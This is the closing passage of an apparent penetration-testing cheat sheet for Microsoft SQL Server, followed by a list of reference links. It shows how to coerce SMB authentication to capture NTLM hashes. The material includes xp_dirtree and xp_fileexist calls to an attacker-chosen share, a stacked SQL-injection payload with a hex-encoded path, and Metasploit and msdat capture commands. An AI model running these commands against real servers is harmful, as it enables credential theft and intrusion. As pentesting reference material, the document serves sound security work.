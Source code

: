 Then, from a connected SQL interpreter, the methods can be used to make a
connection to the `SMB` service:

```sql
-- METHOD = xp_dirtree / xp_fileexist / xp_getfiledetails
<METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>';
EXEC <METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>';
EXEC <METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>',1,1;
EXEC master.sys.<METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>';
EXEC master..<METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>';
EXEC master.dbo.<METHOD> '\\<HOSTNAME | IP>\<WHATEVER_SHARE>';

# To bypass single quote issues in SQL injection, the following may be used.
# Example: \\<IP>\<FAKE_SHARE> -> 0x5c5c3c49503e5c3c46414b455f53484152453e
1;DECLARE @varshare VARCHAR(8000);SET @varshare=<0xHEX_ENCODED_PATH>;EXEC master.sys. <METHOD> @varshare--
```

The `metasploit` module `auxiliary/admin/mssql/mssql_ntlm_stealer` and the
`msdat` `Python` script can be used to try the three methods above
automatically:

```bash
# Only tries xp_dirtree and xp_fileexist
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

msdat smbauthcapture -v -s <RHOST> -p <RPORT> -D <DB_NAME> -U <USERNAME> -P '<PASSWORD>' --capture <LHOST_SMB_SERVER>
```

--------------------------------------------------------------------------------

### References

https://hackingandsecurity.blogspot.com/2018/09/abusing-sql-server-trusts-in-windows.html
https://alamot.github.io/mssql_shell/
https://blog.netspi.com/get-sql-server-sysadmin-privileges-local-admin-powerupsql/
https://docs.microsoft.com/fr-fr/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-2017
https://docs.microsoft.com/fr-fr/sql/relational-databases/security/authentication-access/database-level-roles?view=sql-server-2017
https://dba.stackexchange.com/questions/199440/why-securityadmin-does-not-have-enough-permission
https://blog.netspi.com/get-sql-server-sysadmin-privileges-local-admin-powerupsql/
https://docs.microsoft.com/fr-fr/dotnet/framework/data/adonet/sql/customizing-permissions-with-impersonation-in-sql-server
https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/
https://sqlity.net/en/1701/the-trustworthy-database-property-explained-part-2/
https://docs.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms189237(v=sql.105)
https://docs.microsoft.com/fr-fr/sql/ssms/agent/create-an-activex-script-job-step?view=sql-server-2016
https://www.mssqltips.com/sqlservertip/2014/replace-xpcmdshell-command-line-use-with-sql-server-agent/
https://docs.microsoft.com/fr-fr/sql/ssms/agent/clear-the-job-history-log?view=sql-server-ver15
https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/
https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links
